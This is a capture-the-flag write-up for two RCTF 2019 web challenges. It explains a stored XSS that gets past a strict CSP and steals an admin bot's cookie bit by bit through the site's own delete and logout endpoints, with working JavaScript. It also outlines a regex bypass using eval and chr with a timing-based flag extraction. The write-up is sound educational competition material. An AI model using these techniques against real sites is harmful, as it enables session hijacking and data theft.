



Jail
------

For the intended solution, go to [this writeup](https://github.com/zsxsoft/my-ctf-challenges/tree/master/rctf2019/jail%20%26%20password)

Ok so I found an (un)intended way to solve `jail` challenge at [RCTF 2019](https://ctftime.org/event/812). First let's analyze the web application - [here if it's still up](https://jail.2019.rctf.rois.io/)

It's a web app written in PHP that requires the user to login and allows him to post messages for himself which are listed only to himself, send feedback to the admin with a post id (a headless browser instance checks them), to upload an avatar (can upload arbitrary content with any extension), to delete all posts and to logout.



Those are the endpoints
```
GET  /?action=login
POST /?action=login
GET  /?action=signup
POST /?action=signup

logged in only
GET  / - list all messages
POST / - post message with param message
GET  /?action=post&id=003ab6a68ba176a916c5d16510e5c4d7 - get message
GET  /?action=feedback - feedback page
POST /?action=feedback - post feedback with `id` and `captcha` which was a proof of work
GET  /?action=profile
POST /?action=profile
GET  /?action=index&method=delete
GET  /?action=index&method=logout
```

Well playing around I could see that messages are not stripped of html in any way. So the solution must be some type of XSS. Loading a message page, there was a hint.

```
Set-Cookie: hint1=flag1_is_in_cookie
Set-Cookie: hint2=meta_refresh_is_banned_in_server
```

Clearly XSS. But trying something I was quickly blocked by the following CSP:
```
sandbox allow-scripts allow-same-origin
base-uri 'none'
default-src 'self'
script-src 'unsafe-inline' 'self'
connect-src 'none'
object-src 'none'
frame-src 'none'
font-src data: 'self'
style-src 'unsafe-inline' 'self'
```

Everything looked like it was blocked. Nothing external available. But I saw some hope at `script-src 'unsafe-inline' 'self'`. Hmm maybe not, as the following script was prepended to my message content and was blocking redirects:

```html
<script>
window.addEventListener("beforeunload", function (event) {
  event.returnValue = "Are you sure want to exit?"
  return "Are you sure want to exit?"
})
Object.freeze(document.location) </script>
___MY_MESSAGE___
```

So let's go back the the feedback page. There I would enter the post id, solve the captcha and "some admin would check the link by hand" (headless browser lol). As the html from the post wasn't escaped, the admin would run our html and javascript. Meaning I could exfiltrate his cookies and do other stuff with his browser.



Ok. How can I exfiltrate the cookie without anything external? It was a bit obvious I could just send it internally. Just get the admin's cookie, replace his cookie with mine (meaning he would be logged as me) and just post a message with his cookie. Well, pretty good plan BUT the sandbox property of CSP wouldn't allow that (`sandbox allow-scripts allow-same-origin`). We would be needing `allow-forms`.

At least I can make get requests with an image. Maybe... This was an outrageous idea, but do you remember the `delete all` endpoint? It's a `GET`. And `logout` is also a `GET`. Maybe I can exfiltrate the cookie bit by bit. 1 goes to `delete all`, 0 goes to `logout`, and if it fails, nothing would happen so I would have to retry. Let's do some math. Let's say the flag has 40 chars. It's printable ASCII so we can assume the leftmost bit is 0. `0xxxxxxx`. We would have to send `40 * 7 = 280` requests. Pretty doable.

I tried it.

```html
<script>
i=0;
j=1;

v = document.cookie;
s = v.charCodeAt(i).toString(2).padStart(8, '0')[j];
document.cookie="PHPSESSID=mysessionid";

window.onload = function() {

method = null;
if (s === '1') {
    method = 'delete';
} else if(s === '0') {
    method = 'logout';
} else {
    method = 'bad';
}

document.write('');

};
</script>
```

IT FREAKING WORKS. I had to automate it and make it bad ass. Not a big deal. Remember the captcha from feedback? I pregenerated all of them, put them in a `marshal file` and loaded them at the start. `165M` of hashmap.

The plan is as follows:
1. Login if not logged in
2. Post the message and get post id
3. Send post id to feedback
4. Wait 5 seconds then check the main page
    * if logged out: return 0
    * elif no posts found: return 1 # posts deleted
    * else retry



It worked. After like 20-30 minutes we got the flag. You can check out the source at [jail/bf.py](jail/bf.py). I used comments :))

Sorry for spamming you guys at RCTF. I hope you enjoyed this alternative solution.

CALCALCALC
-----

I found a solution which I think was too easy for `calcalcalc`. Basically one could use `eval()` with `chr()` to escape this regex check `!/^[0-9a-z\[\]\(\)\+\-\*\/ \t]+$/i.test(str)`. The payload would run in python, and by using sleep and a binary search I was able to get the flag.

Source code at [calc/main.py](calc/main.py)
